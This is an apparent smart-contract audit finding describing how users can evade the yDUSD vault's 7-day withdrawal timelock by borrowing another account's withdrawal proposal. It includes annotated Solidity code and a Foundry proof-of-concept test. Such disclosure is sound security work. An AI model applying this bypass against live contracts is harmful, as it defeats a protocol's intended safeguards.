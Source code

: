 ## [M] Users can evade the `yDUSD` vault's withdrawal timelock mechanism

### Summary

The `yDUSD` vault's withdrawal timelock mechanism is vulnerable. An exploiter can withdraw the `DUSD` assets in their account by using another account's `proposedWithdraw` request info, breaking the vault's core invariant.

### Description

Assuming Bob is an exploiter, he can evade his account (i.e., `owner`) from the `yDUSD` vault's withdrawal timelock mechanism by using [the `proposeWithdraw` request info of another account (i.e., `msg.sender`)](relative_path_091409:contracts/tokens/yDUSD.sol#L85) (`@1` in the snippet below), which can be requested beforehand.

This way, he can withdraw his `DUSD` assets in the `owner` account from the vault without waiting for the 7-day period, breaking the invariant of the vault's timelock mechanism.

With the `msg.sender`'s `proposeWithdraw`request info, the [7-day timelock period check](relative_path_091409:contracts/tokens/yDUSD.sol#L91) (`@2`) can be passed. After passing the withdrawal timelock check in `@2`, the [`DUSD` assets in the `owner` account](relative_path_091409:contracts/tokens/yDUSD.sol#L107) (`@3`) can be withdrawn without invoking the `yDUSD::proposeWithdraw()`.

```solidity
    function withdraw(uint256 assets, address receiver, address owner) public override returns (uint256) {
        //@audit @1 -- Bob can evade his account (i.e., owner) from the vault's withdrawal timelock mechanism by using
        //             the proposeWithdraw info of another account (i.e., msg.sender), which can be requested beforehand.
        //
        //             This way, he can withdraw his DUSD assets in the 'owner' account from the vault without 
        //             waiting for the 7-day period, breaking the invariant of the vault's timelock mechanism.
@1      WithdrawStruct storage withdrawal = withdrawals[msg.sender];
        uint256 amountProposed = withdrawal.amountProposed;
        uint256 timeProposed = withdrawal.timeProposed;

        if (timeProposed == 0 && amountProposed <= 1) revert Errors.ERC4626ProposeWithdrawFirst();

        //@audit @2 -- With the msg.sender's proposeWithdraw request info, the 7-day timelock period check can be passed.
@2      if (timeProposed + C.WITHDRAW_WAIT_TIME > uint40(block.timestamp)) revert Errors.ERC4626WaitLongerBeforeWithdrawing();

        // @dev After 7 days from proposing, a user has 45 days to withdraw
        // @dev User will need to cancelWithdrawProposal() and proposeWithdraw() again
        if (timeProposed + C.WITHDRAW_WAIT_TIME + C.MAX_WITHDRAW_TIME <= uint40(block.timestamp)) {
            revert Errors.ERC4626MaxWithdrawTimeHasElapsed();
        }

        if (amountProposed > maxWithdraw(owner)) revert Errors.ERC4626WithdrawMoreThanMax();

        checkDiscountWindow();

        uint256 shares = previewWithdraw(amountProposed);

        IAsset _dusd = IAsset(dusd);
        uint256 oldBalance = _dusd.balanceOf(receiver);
        //@audit @3 -- After passing the timelock check in @2, the DUSD assets in Bob's owner account can be withdrawn 
        //             without invoking the proposeWithdraw().
@3      _withdraw(_msgSender(), receiver, owner, amountProposed, shares);
        uint256 newBalance = _dusd.balanceOf(receiver);

        // @dev Slippage is likely irrelevant for this. Merely for preventative purposes
        uint256 slippage = 0.01 ether;
        if (newBalance < slippage.mul(amountProposed) + oldBalance) revert Errors.ERC4626WithdrawSlippageExceeded();

        delete withdrawal.timeProposed;
        //reset withdrawal (1 to keep slot warm)
        withdrawal.amountProposed = 1;

        return shares;
    }
```

*   `@1`: <relative_path_091409:contracts/tokens/yDUSD.sol#L85>
*   `@2`: <relative_path_091409:contracts/tokens/yDUSD.sol#L91>
*   `@3`: <relative_path_091409:contracts/tokens/yDUSD.sol#L107>

To exploit the vulnerability, Bob must approve [the shares transfer of the `owner` account](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/4fd2f8be339e850c32206342c3f9a1a7bedbb204/contracts/token/ERC20/extensions/ERC4626.sol#L237-L239) (`@3.1` in the snippet below) for the `withdrawer` account (i.e., `msg.sender`).

After `@3.1`, the `ERC4626::_withdraw()` will burn the [shares from the `owner` account](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/4fd2f8be339e850c32206342c3f9a1a7bedbb204/contracts/token/ERC20/extensions/ERC4626.sol#L247) (`@3.2`), and then the [`DUSD` assets in the `owner` account](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/4fd2f8be339e850c32206342c3f9a1a7bedbb204/contracts/token/ERC20/extensions/ERC4626.sol#L248) (`@3.3`) will eventually be transferred out.

```solidity
        // FILE: node_modules/@openzeppelin/contracts/token/ERC20/extensions/ERC4626.sol
        function _withdraw(
            address caller,
            address receiver,
            address owner,
            uint256 assets,
            uint256 shares
        ) internal virtual {
            //@audit @3.1 -- To exploit the vulnerability, Bob must approve the shares transfer of the 'owner' account 
            //               for the withdrawer account (i.e., msg.sender).
@3.1        if (caller != owner) {
@3.1            _spendAllowance(owner, caller, shares);
@3.1        }

            // If _asset is ERC777, `transfer` can trigger a reentrancy AFTER the transfer happens through the
            // `tokensReceived` hook. On the other hand, the `tokensToSend` hook, that is triggered before the transfer,
            // calls the vault, which is assumed not malicious.
            //
            // Conclusion: we need to do the transfer after the burn so that any reentrancy would happen after the
            // shares are burned and after the assets are transferred, which is a valid state.

            //@audit @3.2 -- The _withdraw() will burn the shares from the 'owner' account.
@3.2        _burn(owner, shares);

            //@audit @3.3 -- Then, the DUSD assets in the 'owner' account will eventually be transferred out.
@3.3        SafeERC20.safeTransfer(_asset, receiver, assets);

            emit Withdraw(caller, receiver, owner, assets, shares);
        }
```

*   `@3.1`: <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/4fd2f8be339e850c32206342c3f9a1a7bedbb204/contracts/token/ERC20/extensions/ERC4626.sol#L237-L239>
*   `@3.2`: <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/4fd2f8be339e850c32206342c3f9a1a7bedbb204/contracts/token/ERC20/extensions/ERC4626.sol#L247>
*   `@3.3`: <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/4fd2f8be339e850c32206342c3f9a1a7bedbb204/contracts/token/ERC20/extensions/ERC4626.sol#L248>

### Impact

Users can withdraw their `DUSD` assets from the `yDUSD` vault without waiting for the 7-day period, breaking the vault's timelock mechanism's invariant.

### Proof of Concept

This section provides a coded PoC.

Place the `test_PoC_yDUSD_Vault_BreakingWithdrawalInvariant()` in the `.test/YDUSD.t.sol` file and declare the following `import` directive at the top of the test file: `import {IyDUSD} from "interfaces/IyDUSD.sol";`.

To run the test, execute the command: `forge test -vv --mt test_PoC_yDUSD_Vault_BreakingWithdrawalInvariant`.

The PoC shows that an exploiter can withdraw their `DUSD` assets in the `sender` account using another withdrawer account, i.e., the `receiver` account, without waiting for the 7-day period.

```solidity
function test_PoC_yDUSD_Vault_BreakingWithdrawalInvariant() public {
    // Require: import {IyDUSD} from "interfaces/IyDUSD.sol";

    // ----- Setup PoC -----
    // Mint dusd to sender
    vm.prank(_diamond);
    token.mint(sender, DEFAULT_AMOUNT);

    // Match at oracle
    fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, extra);
    fundLimitAskOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, extra);

    skip(C.DISCOUNT_WAIT_TIME);
    // ----- Setup PoC -----

    // Receiver deposits DUSD into the vault to get yDUSD
    vm.prank(receiver);
    rebasingToken.deposit(DEFAULT_AMOUNT, receiver);

    // Receiver proposes for withdrawal
    vm.prank(receiver);
    rebasingToken.proposeWithdraw(DEFAULT_AMOUNT);

    // Skip 7 days to avoid the ERC4626WaitLongerBeforeWithdrawing error
    skip(7 days);

    // Sender deposits DUSD into the vault to get yDUSD
    vm.prank(sender);
    rebasingToken.deposit(DEFAULT_AMOUNT, sender);

    // To exploit the vulnerability, perform the following steps:
    //
    // 1. Sender approves shares transfer for Receiver (another Sybil account)
    vm.prank(sender);
    IyDUSD(_yDUSD).approve(receiver, type(uint256).max); // Require: import {IyDUSD} from "interfaces/IyDUSD.sol";

    // 2. Sender withdraws DUSD assets from his account using Receiver's proposed info
    //
    // As a result, Sender neither needs to execute the proposeWithdraw() nor wait for any second to withdraw his assets
    vm.prank(receiver);
    rebasingToken.withdraw(0 /* unused */, sender /* receiver */, sender /* owner */); // Use Receiver's proposed info
}
```



